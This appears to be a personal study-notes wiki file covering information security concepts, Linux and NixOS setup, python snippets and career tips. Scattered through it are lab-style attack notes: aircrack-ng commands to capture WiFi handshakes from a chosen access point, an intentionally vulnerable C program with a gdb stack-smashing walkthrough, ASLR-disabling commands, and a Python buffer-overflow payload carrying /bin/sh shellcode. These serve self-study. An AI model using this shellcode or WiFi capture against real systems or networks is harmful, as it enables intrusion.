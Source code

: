 = random
:stem:

== xref:avviki.adoc[avviki]

making my own antora vim wiki plugin thingy

== xref:information-security.adoc[Information Security]

encompasses:

* cybersecurity
* privacy
* physical security
* contingency planning and disaster recovery
* operational security
* personnel security

not sure if it's exactly the right words or if limited to that only.
i think it encompasses a lot more than the list above.

=== xref:security-frameworks.adoc[Security Frameworks]

=== xref:security-standards.adoc[Security Standards]

=== xref:security-models.adoc[Security Models]

=== xref:cia-triad.adoc[CIA Triad]

[qanda]
What is it for?::
no idea

How is it used?::
no idea

Why is it used?::
still no idea

How does it work?::
no idea

What are the components of the CIA Triad?::
confidentiality, integrity, and availability. i think?

What examples each components has in action?::
wew

How do organizations implement measures to achieve confidentiality, integrity, and availability?::
no idea

What are the potential risks or threats to each component?::
no idea

How do the components of the CIA Triad interact with each other?::
im not sure

In what scenarios might organizations prioritize one component over the others?::
i dunno

What other frameworks or models in information security related to cia triad?::
. Parkerian Hexad
. Information Security Triad
. AAA Triad
. CIA Triad of Information Assurance
. Six Trust Services Principles
. ISO/IEC 27001
. NIST Cybersecurity Framework
. Defense in Depth
. Zero Trust Security Model
. CIS Controls
. Data Classification
. Threat Modeling



=== NICE Framework

maybe i should pay attention to this https://www.nist.gov/itl/applied-cybersecurity/nice/nice-framework-resource-center[]

this means national institute for cybersecurity education.
i think it's focused for learners that wants to learn cybersecurity.
thus, it's broken down into task, knowledge, and skills where the tasks is the cybersecurity work that needs to be done while knowledge and skills are what learners needs to know to accomplish the task.

== job salary expectations when listed in job posting

when asked these questions:

[qanda]
What are your salary expectations for this role?::
Mention the salary range in the job description.
Ask if it's still the case.

Yes, does that align with your expectations?::
Mention what you want.
If you want a higher salary, mention that a higher end aligns with your expectations.

We'd love to offer you a job. Do you accept?::
Don't answer on the spot.
Don't ask for the pay.
Don't negotiate.
First thank them for the job offer, second be grateful to join the team, third ask them for the offer letter in email so that you can review the specifications.

Last thing to do is to be grateful again.
Then push for higher end of the salary if it's not enough.

== firejail

if i want to program to use specific folder, do.

----
firejail --private=~/some_directory ...
----

== life lessons maybe?

[NOTE]
.*Here’s 32 things I’ve learned that I hope help you in your journey*:
====

. Nothing worthwhile comes easy. 
. Work on a passion project, even just 30 minutes a day. It compounds.
. Become a lifelong learner (best tip).
. Working from 7am to 7pm isn’t productivity. It’s guilt.
. To be really successful become useful.
. Like houses in need of repair, problems usually don’t fix themselves.
. Don’t say something to yourself that you wouldn’t say to someone else. 
. Try to spend 12 minutes a day in quiet reflection, meditation, or prayer.
. Try new things. If it doesn’t work out, stop. At least you tried.
. You can’t control everything. Focus on what you can control.
. If you think you have it tough, look around.
. It's only over when you say it is.
. ...
====

Source: link:https://www.reddit.com/r/lifehacks/comments/1bgw44k/i_turned_72_today/[Reddit]


== linux maybe


`ip a show <interface>`

running root on gui in terminal: `sudo -E <command>` ref: https://wiki.archlinux.org/title/Running_GUI_applications_as_root#Wayland

udev rule

checking if wifi card supports monitor mode:
1. put into monitor mode
2. check if there's monitor mode
3. test packet injection with `aireplay-ng --test <interface>`


starting monitor mode: `airmon-ng start <interface>`
checking if monitor mode: `iwconfig` and find the `Mode:Monitor`
use `airodump-ng <interface>`  to see all the access points

make sure to `airmon-ng check kill`

### for sniffing the network

`airodump-ng --bssid <ap_bssid> --essid <ap_name> -c <channel> -w <filename> <interface>`

> [!NOTE]- This is wrong
> if your card can't capture the data, it will only show `clear-to-send` and `request-to-send` and no `Acknowledgement`. a successful sniff must have both `Acknowledgement` and `WPA Handshake` in [[airodump-ng]]
it needs CTS -> RTS -> Qos Data

targeting a specific network requires specifying the [[BSSID]]. 


or an alternative to that above would be:
ifconfig wlan0 down
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig

```
wlan.fc.type_subtype in {0x00}
```

# iw

iw dev:: show which interface it is related to ``phy``

## find if it supports AP

.$ iw list
----
Supported interface modes:
	 * IBSS
	 * managed
	 * **AP**
	 * AP/VLAN
	 * WDS
	 * monitor
	 * mesh point
----


#python 

[python]
----
import sys

args = sys.argv
----

*sys.args* will always contain the filename

better use `argparse` for parameters with arguments

[python]
----
import argparse

parser = argparse.ArgumentParser(description="description here")
parser.add_argument("--name", help="set name")
args = parser.parse_args()
----

to use flags, add ``action="store_true"`` inside the argument. default values can also be set with ``default="value"``.

``metavar`` for changing help argument string



== Fix windows 10 boot

select the disk with ``diskpart`` then select the system volume. if gpt use ``bcdboot``. if mbr, use ``bootrec``. assign a drive letter.
bcdboot: ``bcdboot C:\windows /s V: /f UEFI``

== xref:stack-smashing.adoc[Stack Smashing]

[c]
----
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main() {
    char u[16];
    volatile int p = 0;
    scanf("%s", u);
    if (p != 0) {
        printf("How u do dat?\n");
    }
    else {
        printf("Nope.\n");
    }
    return 0;
}
----

compile: ``gcc vuln.c -o vuln -fno-stack-protector -ggdb``

. gdb vuln
. disas main (not needed)
. list 11
. break 10
. break 11
. r <<< $(python -c "print('A'*40)") this should return a segmentation fault
note the memory address: 

----
Program received signal SIGSEGV, Segmentation fault.
0x00005555555551a0 in main () at vuln.c:17
----
. confirm with `info reg` or `p/x $rip`



remove a breakpoint: ``del #``

* x/16x buf
* i f

== Run Obsidian in xref:wayland.adoc[Wayland]

----
OBSIDIAN_USE_WAYLAND=11 obsidan -enable-features=UseOzonePlatform -ozone-platform=wayland
----

== aslr


disabling: ``setarch $(uname -m) -R <ELF executable>``
permanently: ``echo 0 | sudo tee /proc/sys/kernel/randomize_va_space``

== more python stack smashing

[python]
----

import sys

OFFSET      = b"\x41"
EIP         = b"\x38\xcd\xff\xff" # PLEASE FIND THE CORRECT EIP FOR EVERY COMPUTER MEMORY ADDRESS. DO NOT USE THIS ADDRESS SINCE IT'S DIFFERENT FOR ALL COMPUTERS
NOP         = b"\x90" 

SHELLCODE   = b"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
SHELLCODE2  = b"\x31\xc0\x40\x89\xc3\xcd\x80"

exploit     = SHELLCODE2 + NOP*5 + EIP
sys.stdout.buffer.write(exploit)
----

== xref:nixos.adoc[NixOS]

== updating

``nixos-rebuild switch --upgrade``

=== partitioning the drive

1. Set partition table to GPT

```sh
#parted /dev/<device> -- mklabel gpt
parted /dev/vda -- mklabel gpt
```

2. Create boot partition

```sh
#parted /dev/<device> -- mkpart ESP fat32 1MiB 512MiB
parted /dev/vda -- mkpart ESP fat32 1MiB 512MiB
```

3. Set ESP boot flag

```sh
#parted /dev/<device> -- set <partition number> <partition label> on
parted /dev/vda -- set 1 ESP on
```

4. Create root and home partition

```sh
#parted /dev/<device> -- mkpart root <file system> <start> end>
parted /dev/vda -- mkpart root btrfs 512MiB 32.5MiB
parted /dev/vda -- mkpart home btrfs 32.5GiB 100%
```

simpler version

```sh
parted /dev/vda
mklabel gpt
mkpart ESP fat32 1MiB 512MiB
set 1 ESP on
mkpart root btrfs 512MiB 32.5GiB
mkpart home btrfs 32.5GiB 100%
```

`print` to verify

=== formatting with luks encryption

1. format boot partition (no encryption)

```sh
mkfs.fat -F 32 -n boot /dev/vda1
```

2. format root and home partitions with luks

```sh
#cryptsetup --verify-passphrase -v luksFormat <partition>
cryptsetup --verify-passphrase -v luksFormat /dev/vda2
cryptsetup --verify-passphrase -v luksFormat /dev/vda3
```

> [!NOTE]
> This does not include a label to the luks container. Use `cryptsetup config <luks container> --label <label>` to add a label.

3. mount encrypted partitions

```sh
#cryptsetup open <partition> <label>
cryptsetup open /dev/vda2 root_luks
cryptsetup open /dev/vda2 home_luks
```

4. partition home and root

```sh
#mkfs.btrfs -L <label> <luks dev mapper name>
mkfs.btrfs -L nixos /dev/mapper/root_luks
mkfs.btrfs -L home /dev/mapper/home_luks
```
i use `root` and `home` to have separate partition labels. this causes an issue in booting if labels are the same. the labels here might be used by `/dev/disk/by-label/`.

5. mounting root and home partitions

```sh
#mount -t <file system> /dev/mapper/<partition> </mnt locations>
mount -t btrfs /dev/mapper/root_luks /mnt
mount -t btrfs /dev/mapper/home_luks /mnt/home
```

do `mkdir /mnt/home` if directory does not exist

6. creating subvolumes

```sh
btrfs subvolume create /mnt/root
btrfs subvolume create /mnt/nix
btrfs subvolume create /mnt/persist
btrfs subvolume create /mnt/log
btrfs subvolume snapshot -r /mnt/root /mnt/root-blank
```

7. unmount

```sh
umount /mnt/home
umount /mnt
```

8. mount root and home, and others

```sh
mount -o subvol=root,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt
```

9. create directories for mount point

```sh
mkdir /mnt/home
mkdir /mnt/nix
mkdir /mnt/persist
mkdir -p /mnt/var/log
```

10. mount home and subvolumes

```sh
mount -o compress=zstd,relatime,ssd,space_cache=v2 /dev/mapper/home_luks /mnt/home
mount -o subvol=nix,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt/nix
mount -o subvol=persist,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt/persist
mount -o subvol=log,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt/var/log
```

11. mount boot

```sh
mkdir /mnt/boot
#mount /dev/<partition> /mnt/boot
mount /dev/vda1 /mnt/boot
```

12. generate nixos-config

```sh
nixos-generate-config --root /mnt
```

== Section 19 of RA 11055


====
Any person or entity who, without just and sufficient cause, shall refuse to accept, acknowledge and/or recognize the PhilID or PSN, subject to authentication, as the only official identification of the holder/possessor thereof shall be fined in the amount of Five hundred thousand pesos (P500,000.00).
====



== idk

.$ cat /proc/mounts
[sh]
----
/dev/nvme0n1p2 / btrfs rw,noatime,compress=zstd:3,ssd,discard=async,space_cache=v2,subvolid=265,subvol=/@ 0 0

/dev/nvme1n1p1 /birb btrfs rw,relatime,compress=zstd:3,ssd,discard=async,space_cache=v2,subvolid=5,subvol=/ 0 0

/dev/nvme0n1p3 /home btrfs rw,noatime,compress=zstd:3,ssd,discard=async,space_cache=v2,subvolid=256,subvol=/@home 0 0

/dev/nvme0n1p1 /boot/efi vfat rw,relatime,fmask=0022,dmask=0022,codepage=437,iocharset=ascii,shortname=mixed,utf8,errors=remount-ro 0 0
----


* `-fno-stack-protector` disables stack smashing protection.
* `-m32` generate 32-bit architecture code.
* `-mpreferred-stack-boundary=2` stack boundary should be aligned in 4 bytes.
* `-ggdb` generate debug information compatible with the GDB debugger.
* `-fno-pie` disables position-independent executable (PIE) generation which randomizes the base address of the executable.
* `-z execstack` sets the stack as executable.



stopping monitor mode 
1. `ip link set <interface> down`
2. `iwconfig <interface> mode managed` or `iw dev <interface> set type managed`
3. `ip link set <interface> up`
4. restart networking services

check ***iwconfig***. 



```sh
alias memrss 'ps -eo comm,pmem,rss,etime --sort -rss | numfmt --header --from-unit=1024 --to=iec --field 3 | column -t | head -n20'
```



#hyprland #xdg-desktop-portal
screenshare not working - restart xdg-desktop-portal-hyprland
```sh
systemctl restart --user xdg-desktop-portal-hyprland.service
```

== python trace memory usage


[python]
----
import tracemalloc
tracemalloc.start()
# some function here or __main__()
print(tracemalloc.get_traced_memory())
tracemalloc.stop()
----

== intersting


#zram
using zram-generator
use only 50% of max ram
`/etc/systemd/zram-generator.conf`

#ssh 
when switching ssh keys
```sh
eval "$(ssh-agent -s)"
ssh-add <rsa>
```
example: `eval "$(ssh-agent -s)" && ssh-add ~/.ssh/homeserver`



https://github.com/v1s1t0r1sh3r3/airgeddon/wiki/Cards%20and%20Chipsets #airgeddon


checking for Virtual Interface capability:

```
iw list | grep "Supported interface modes" -A 8
```

*note: run with sudo if not working*

should output `AP/VLAN` (not just `AP`) for full support of [[Virtual Interface|VIF]]


avoid these chipsets:
- rtl8814au
- rtl8812au
- rtl8821/11au

https://github.com/morrownr/USB-WiFi/issues/314


list wifi devices: `nmcli device`


---

#nixos-installation 

1. connect to wifi using **wpa_cli**
2. partition the disk with **parted** (esp, root, home). make sure to use **BTRFS**
3. use **Full-Disk Encryption**
4. create subvolumes (nix, persist, log)
5. mount them



1. malware analysis lab
2. ids/zeek network monitoring
	1. snort
	2. suricata
3. metasploitable
4. wazuh to soar implementation
	1. setup wazuh, at least one agent
	2. integrate shuffle platform with automation




== common security frameworks:

- SOC 2
- ISO 270012
- NIST CSF2
- HIPAA2
- PCI DSS2
- HITRUST2
- COBIT2
- NIST 800-53
- NIST 800-171


== learn better

* prediction
* simulation
* analysis


== another random


-  preimage attacks
-  hash collision

security keys for security control
- https://pauljerimy.com/security-certification-roadmap/
- https://training.dfirdiva.com/listing-category/it-cybersecurity
- https://www.cyberdegrees.org/resources/free-online-courses/#faq


---

#cmsc176dl

limitations of single-layer networks

- limited expressiveness
	- can only perform well in linear relationships
- sensitivity to noise data
	- will try to fit because of the outlier

solution: multi-layer neural networks

Feedforward network - info flows into one direction, from input to output


== magic hehe

Relating magical classifications to digital technology and computer science can provide interesting parallels:

*Alchemist*:: Comparable to software engineers who experiment with different tools, libraries, or frameworks to create innovative solutions and optimize performance or efficiency in software development.
*Arcanist*:: Similar to skilled software architects and theoreticians who possess deep knowledge of abstract computational concepts and principles. They specialize in understanding the fundamental theories behind computing, such as algorithms, data structures, and computational complexity. Arcanists excel in designing high-level system architectures, crafting elegant solutions to complex problems, and pushing the boundaries of computational knowledge. They are less focused on specific programming languages or frameworks and more concerned with the overarching principles that govern computation.
*Channeler*:: Resembles data engineers who build pipelines and workflows to extract, transform, and load data from various sources, channeling it for analysis, visualization, or storage purposes.
*Elementalist*:: Similar to software engineers who specialize in specific programming languages or frameworks, such as Java, Python, or React. Each element represents a different tool or technology used in software development.
*Enchanter/Enchantress*:: Similar to software testers who evaluate and enhance the quality of software products by identifying bugs, defects, or inconsistencies and ensuring they meet user expectations.
*Healer/White Mage*:: Resembles cybersecurity specialists who focus on identifying and remedying vulnerabilities in digital systems to protect them from malicious attacks and ensure their health and integrity.
*Hexer/Curselord*:: Resembles ethical hackers or penetration testers who simulate cyber-attacks to identify weaknesses and vulnerabilities in digital systems, exposing them to potential harm or exploitation.
*Illusionist*:: Resembles UX/UI designers who create visually appealing interfaces and experiences that may deceive or manipulate user perceptions. They use design elements to guide user interactions and create immersive digital environments.
*Necromancer*:: Comparable to forensic analysts who investigate digital artifacts and traces to reconstruct events or uncover evidence of past activities within computer systems or networks.
*Seer/Oracle*:: Similar to data scientists who analyze large datasets and use predictive analytics to forecast future trends or gain insights into hidden patterns and relationships within the data.
*Shapeshifter*:: Resembles software architects who adapt and transform system designs to meet changing requirements or accommodate different platforms, environments, or technologies.
*Sorcerer/Sorceress*:: Comparable to software developers who use their knowledge and skills to craft complex programs, applications, or systems. They wield various programming techniques and methodologies to achieve their goals.
*Summoner*:: Comparable to cloud architects who provision and manage virtual resources and services from cloud providers, summoning computing power and storage on demand.
*Telekinetic*:: Similar to experts in robotic process automation (RPA) who develop algorithms and scripts to automate tasks and manipulate digital objects without direct physical interaction.
*Teleporter*:: Comparable to network engineers who design and manage systems for data transmission and communication, enabling instant connectivity and information exchange across vast distances.
*Warder*:: Similar to system administrators or DevOps engineers who establish security measures and protocols to protect digital assets and ensure the stability and reliability of IT infrastructure.

In the context of the relationship between magic and computer science, the analogy often draws parallels between the principles of magic and the concepts of computer science. Here's how some aspects of magic can be related to computer science:

*Spells as Algorithms*:: In magic, spells are sequences of actions or incantations that produce a desired effect. Similarly, algorithms in computer science are step-by-step procedures designed to solve specific problems or achieve tasks.

*Mana as Computational Resources*:: Mana, the magical energy used to cast spells, can be likened to computational resources in computer science, such as CPU power, memory, or bandwidth. Both mana and computational resources are finite and must be managed efficiently to achieve desired outcomes.
*Spellcasting as Programming*:: The act of casting a spell involves specifying the desired outcome and executing the necessary steps to achieve it. This process is akin to writing and executing code in computer programming, where programmers define instructions for a computer to follow to perform tasks.
*Magical Circles as Software Environments*:: Magical circles or runes, used in some magical practices to contain and control magical energy, can be compared to software environments or development frameworks in computer science. They provide a controlled space for performing magical operations or executing code.
*Magical Devices as Computing Devices*:: Magical artifacts or devices, such as wands, staves, or amulets, serve as tools for channeling and controlling magical energy. Similarly, computing devices like computers, smartphones, and tablets are tools for processing and manipulating digital information.
*Spellbooks as Code Repositories*:: Spellbooks, repositories of magical knowledge containing instructions for casting spells, can be likened to code repositories in computer science, where programmers store and manage code for various projects.

== malware analysis

indicator of compromise:: (ioc) artifacts left behind by malwares
